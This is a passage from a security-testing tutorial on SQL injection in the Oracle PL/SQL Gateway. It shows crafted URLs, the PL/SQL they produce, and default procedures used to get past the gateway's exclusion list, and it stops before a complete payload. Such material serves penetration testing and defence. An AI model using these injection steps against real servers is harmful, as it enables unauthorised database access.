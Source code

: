 Notice lines 19 and 24. On line 19, the user’s request is checked against a list of known "bad" strings, i.e., the exclusion list. If the requested package and procedure do not contain bad strings, then the procedure is executed on line 24. The XYZ parameter is passed as a bind variable.

If we then request the following:

`http://server.example.com/pls/dad/INJECT'POINT`

the following PL/SQL is executed:

```sql
..
simple_list__(7) := 'htf.%';
if ((owa_match.match_pattern('inject'point', simple_list__ complex_list__, true))) then
 rc__ := 2;
else
 null;
 orasso.wpg_session.init();
 inject'point;
..
```

This generates an error in the error log: "PLS-00103: Encountered the symbol ‘POINT’ when expecting one of the following. . ." What we have here is a way to inject arbitrary SQL qurey. This can be exploited to bypass the exclusion list. First, the attacker needs to find a PL/SQL procedure that takes no parameters and doesn't match anything in the exclusion list. There are a good number of default packages that match this criteria, for example:

```txt
JAVA_AUTONOMOUS_TRANSACTION.PUSH
XMLGEN.USELOWERCASETAGNAMES
PORTAL.WWV_HTP.CENTERCLOSE
ORASSO.HOME
WWC_VERSION.GET_HTTP_DATABASE_INFO
```

An attacker should pick one of these functions that is actually available on the target system (i.e., returns a `200 OK` when requested). As a test, an attacker can request

`http://server.example.com/pls/dad/orasso.home?FOO=BAR`

the server should return a `404 File Not Found` response because the orasso.home procedure does not require parameters and one has been supplied. However, before the 404 is returned, the following PL/SQL is executed:

```sql
..
..
if ((owa_match.match_pattern('orasso.home', simple_list__, complex_list__, true))) then
	rc__ := 2;
else
 null;
 orasso.wpg_session.init();
 orasso.home(FOO=>:FOO);
..
..
```
